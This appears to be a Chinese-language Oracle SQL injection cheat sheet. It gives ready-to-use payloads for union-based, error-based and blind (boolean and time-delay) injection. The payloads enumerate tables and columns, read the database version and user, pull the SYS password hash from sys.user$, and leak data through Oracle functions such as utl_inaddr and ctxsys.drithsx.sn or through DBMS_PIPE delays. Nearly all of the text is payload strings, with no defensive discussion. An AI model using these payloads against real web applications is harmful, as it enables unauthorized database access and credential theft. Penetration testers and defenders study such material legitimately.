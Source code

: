 **3.1 联合查询**

```
Union select null,null,null   从第一个null开始加’null’,得到显示位
Union select null,null,null from dual  返回正确，存在dual表
Union Select tablespace_name from user_tablespaces    //查库
Union Select table_name from user_tables where rownum = 1 and table_name<>’news’  //查表
Union Select column_name from user_tab_columns where table_name=’users’  //查列
?id=1 order by 1-- //获取字段数
and+1=1+union+all+select+(SELECT banner FROM v$version where rownum=1)+from+dual--//获取数据库版本
and+1=1+union+all+select+(select user from dual where rownum=1)+from+dual-- //获取当前连接数据库的用户名
union+all+select+(select password from sys.user$ where rownum=1 and name='SYS')+from+dual-- -- //获取用户SYS密文密码
union+all+select+(SELECT name FROM v$database)+from+dual-- //获取库名
and+1=1+union+all+select+(select table_name from user_tables where rownum=1)+from+dual--//获取第一个表名

```

**3.2 手工显错注入**

```
最大的区别就是utl_inaddr.get_host_address这个函数，10g可以调用，11g需要dba高权限

//判断是否是oracle
?id=1 and exists(select * from dual)--
 //获取库名
?id=1 and 1=utl_inaddr.get_host_address((SELECT name FROM v$database))—-
//获取数据库服务器所在ip
?id=1 and 1=ctxsys.drithsx.sn(1,(select UTL_INADDR.get_host_address from dual where rownum=1))-- 
?id=1 and 1= CTXSYS.CTX_QUERY.CHK_XPATH((select banner from v$version where rownum=1),'a','b')--
?id=1 or 1=ORDSYS.ORD_DICOM.GETMAPPINGXPATH((select banner from v$version where rownum=1),'a','b')--
?id=1 and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null --
?id=1 and 1=ctxsys.drithsx.sn(1,(select user from dual))--

```

**3.3 盲注**

基于布尔类型的盲注：

```
?id=7782' and length((SELECT name FROM v$database))=4--  获取数据库名长度
?id=7782'  and ascii(substr((SELECT name FROM v$database),1,1))=79-- 
获取数据库名第一位为O

```

基于时间延迟的盲注：

```
?id=7782' and 1=(CASE WHEN (ascii(substr((SELECT name FROM v$database),1,1))=79) THEN 1 ELSE 2 END)--
?id=7782'  AND 1=(CASE WHEN (ascii(substr((SELECT name FROM v$database),1,1))=79) THEN DBMS_PIPE.RECEIVE_MESSAGE(CHR(108)||CHR(103)||CHR(102)||CHR(102),5) ELSE 1 END)--

```

**推荐↓↓↓**

![](https://mmbiz.qpic.cn/mmbiz_jpg/NVvB3l3e9aG5kWic5P8XOwFOhXKjibAt6Yfb1QuqSRZaV5QGHtqqXZFWkia50TDjpWTBqG8Huj3aMlA6cOE9cBVkQ/640?wx_fmt=jpeg)

**Linux 学习**